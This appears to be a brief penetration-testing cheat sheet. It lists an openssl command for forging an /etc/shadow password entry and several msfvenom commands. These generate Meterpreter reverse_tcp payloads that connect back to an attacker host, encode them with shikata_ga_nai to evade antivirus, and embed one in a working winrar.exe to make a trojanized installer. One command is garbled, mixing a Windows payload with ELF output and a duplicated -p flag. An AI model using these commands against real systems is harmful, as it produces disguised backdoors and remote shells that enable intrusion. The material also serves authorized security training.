 # Utils

## Password Crack and Hash

### Create password for /etc/shadow file

```bash
openssl passwd -1 -salt abc PASS
```



## Msfvenom

### Generating Payloads

```bash
# list of payload
msfvenom --list payloads

# create a payload 
msfvenom -p x64 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > file.elf
```

### Encoding Payloads

```bash
# list groups of encoders
msfvenom --list encoders

# create windows encode payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e x86/shikata_ga_nai -f exe > file.exe
# -i: to add iterations

# create linux encode payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e x86/shikata_ga_nai -f elf > file.elf
# -i: to add iterations

```

### Injecting Payload Into Windows Portable Executables

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e x86/shikata_ga_nai -i 10 -f exe -k -x winrar.exe > file.exe
```
{% endcode %}
